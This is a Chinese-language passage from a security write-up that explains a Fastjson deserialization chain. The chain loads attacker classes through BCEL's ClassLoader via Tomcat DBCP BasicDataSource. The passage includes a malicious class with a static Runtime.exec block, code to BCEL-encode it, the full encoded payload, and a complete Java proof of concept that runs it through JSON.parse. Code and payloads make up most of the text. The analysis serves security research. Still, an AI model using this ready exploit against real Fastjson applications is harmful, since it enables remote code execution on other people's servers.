

这里会调用java原生的defineClass去进行类加载

明确了这里的类加载步骤后我们得看看在createClass函数里面的Utility.decode是什么样的解码方式

```java
  public static byte[] decode(String s, boolean uncompress) throws IOException {
    char[] chars = s.toCharArray();

    CharArrayReader car = new CharArrayReader(chars);
    JavaReader      jr  = new JavaReader(car);

    ByteArrayOutputStream bos = new ByteArrayOutputStream();

    int ch;

    while((ch = jr.read()) >= 0) {
      bos.write(ch);
    }

    bos.close();
    car.close();
    jr.close();

    byte[] bytes = bos.toByteArray();

    if(uncompress) {
      GZIPInputStream gis = new GZIPInputStream(new ByteArrayInputStream(bytes));

      byte[] tmp   = new byte[bytes.length * 3]; // Rough estimate
      int    count = 0;
      int    b;

      while((b = gis.read()) >= 0)
        tmp[count++] = (byte)b;

      bytes = new byte[count];
      System.arraycopy(tmp, 0, bytes, 0, count);
    }

    return bytes;
  }
```

首先是把字符串 s 按 Java 字符串字面量方式解析

由于在createClass中传入Utility.decode的第二个参数是true，所以会进行一个GZIP的解压缩

例如我们本地测试一下

写一个恶意类

```java
public class calc{
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

将该类编译成clas文件后用Utility.encode进行操作

```java
package SerializeChains.FastjsonSer;


import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;

public class test {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\13664\\Desktop\\fastjson\\target\\classes\\calc.class"));
        String code = Utility.encode(bytes,true);
        System.out.println(code);
    }
}
```

输出结果

```java
$l$8b$I$A$A$A$A$A$A$A$85QMO$db$40$Q$7d$9b8$b1$e3$3a$e4$8b$d0$P$da$S$be$93$i$f0$a57$a2$5eP$b9$d4mQ$83$e8y$b3$ac$92$N$c6$8e$ec$NB$fdC$3ds$B$d4C$7f$40$7fT$d5$d9m$KH$ad$c4J$9e$f1$bc$99$f7ff$f7$e7$af$ef$3f$A$bc$c1$8e$P$PO$7d$3c$c3s$P$_$8c_u$f1$d2G$J$af$5c$bcv$b1$c6P$k$a8D$e9$b7$M$c5n$ef$84$c19HO$rC$zR$89$fc8$3f$l$c9$ec$98$8fbB$9aQ$wx$7c$c23e$e2$F$e8$e8$89$ca$Z6$a2$a1$q$3cV_$e5$c1$84$ab$q$P$Py$ae$a7y$9a$Q$k$SM$ec3x$D$R$_Z1$a2$b6$a3$v$bf$e0a$cc$93q$f8$eeR$c8$99ViBe$d5$a1$e6$e2$ec$D$9f$d9$W4$z$83$3fL$e7$99$90$87$ca$b4$ac$Y$b9$3d$c3$NP$81$ef$a2$T$60$j$h$a4o$T$f2R$G$d8$c4$WC$eb$3f$fa$B$b6$e13t$k$h$97$a1$7e$cf$fe4$9aJ$a1$Z$g$f7$d0$e7y$a2$d59M$e3$8f$a5$be$L$da$dd$5e$f4O$N$ad$e4$d0P$q$b9$db$7d$90$j$eaL$r$e3$fd$87$84$a3$y$V2$cf$89P$9bQR$db$8b8$ce$b8$90$b4$a0K$PiN$B$cc$acM$f6$JE$nyF$be$d4$bf$B$bb$b2$e9$80l$d9$82ET$c9$G$7f$K$b0$84$gy$P$f5$3b2$b7b$40$f3$W$85f$f1$g$ce$97o$f0$de$f7$afQ$be$b2x$85$b8$rR1$8a$x$f4gt$x$WuI$d9C$83$94$fev$a8$c2$a1$b8IQ$8b$3e$X$85$c8$c5$b2C$89$b6$jj$e57y$e9m$fd$92$C$A$A
```

### 链子分析

#### BasicDataSource#getConnection

我们看到BasicDataSource#getConnection方法：



跟进createDataSource方法



跟进createConnectionFactory方法



这里会根据指定的类加载器driverClassLoader去加载driverClassName



并且这里会获取构造请并实例化对象，就会触发我们的恶意类静态方法中的恶意代码

driverClassName和driverClassLoader变量都是可控参数



那我们就可以指定用BCEL去加载我们的恶意类，从而构造链子

```java
{
    {
      "aaa": {
              "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
              //这里是tomcat>8的poc，如果小于8的话用到的类是org.apache.tomcat.dbcp.dbcp.BasicDataSource
              "driverClassLoader": {
                  "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
              },
              "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }:"bbb"
}
```

### payload3

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;

public class BCEL_POC {
    public static void main(String[] args) {
        String payload = "{" +
                "{" +
                "\"aaa\":{\"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\"," +
                "\"driverClassLoader\":{" +
                "\"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"" +
                "}," +
                "\"driverClassName\":\"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85QMO$db$40$Q$7d$9b8$b1$e3$3a$e4$8b$d0$P$da$S$be$93$i$f0$a57$a2$5eP$b9$d4mQ$83$e8y$b3$ac$92$N$c6$8e$ec$NB$fdC$3ds$B$d4C$7f$40$7fT$d5$d9m$KH$ad$c4J$9e$f1$bc$99$f7ff$f7$e7$af$ef$3f$A$bc$c1$8e$P$PO$7d$3c$c3s$P$_$8c_u$f1$d2G$J$af$5c$bcv$b1$c6P$k$a8D$e9$b7$M$c5n$ef$84$c19HO$rC$zR$89$fc8$3f$l$c9$ec$98$8fbB$9aQ$wx$7c$c23e$e2$F$e8$e8$89$ca$Z6$a2$a1$q$3cV_$e5$c1$84$ab$q$P$Py$ae$a7y$9a$Q$k$SM$ec3x$D$R$_Z1$a2$b6$a3$v$bf$e0a$cc$93q$f8$eeR$c8$99ViBe$d5$a1$e6$e2$ec$D$9f$d9$W4$z$83$3fL$e7$99$90$87$ca$b4$ac$Y$b9$3d$c3$NP$81$ef$a2$T$60$j$h$a4o$T$f2R$G$d8$c4$WC$eb$3f$fa$B$b6$e13t$k$h$97$a1$7e$cf$fe4$9aJ$a1$Z$g$f7$d0$e7y$a2$d59M$e3$8f$a5$be$L$da$dd$5e$f4O$N$ad$e4$d0P$q$b9$db$7d$90$j$eaL$r$e3$fd$87$84$a3$y$V2$cf$89P$9bQR$db$8b8$ce$b8$90$b4$a0K$PiN$B$cc$acM$f6$JE$nyF$be$d4$bf$B$bb$b2$e9$80l$d9$82ET$c9$G$7f$K$b0$84$gy$P$f5$3b2$b7b$40$f3$W$85f$f1$g$ce$97o$f0$de$f7$afQ$be$b2x$85$b8$rR1$8a$x$f4gt$x$WuI$d9C$83$94$fev$a8$c2$a1$b8IQ$8b$3e$X$85$c8$c5$b2C$89$b6$jj$e57y$e9m$fd$92$C$A$A\"" +
                "}" +
                "}:\"bbb\""+
                "}";
        JSON.parse(payload);
    }
}
```



有些人会问为什么可以触发getConnection？这是因为JSON在反序列化JSONObject的时候会对JSON的key自动调用toString方法，而调用toString的时候就会调用到该类的getter方法，在POC中，我们如果把这个整体当做一个JSONObject，会把这个当做`key`，值为`bbb`，从而调用到getConnection。
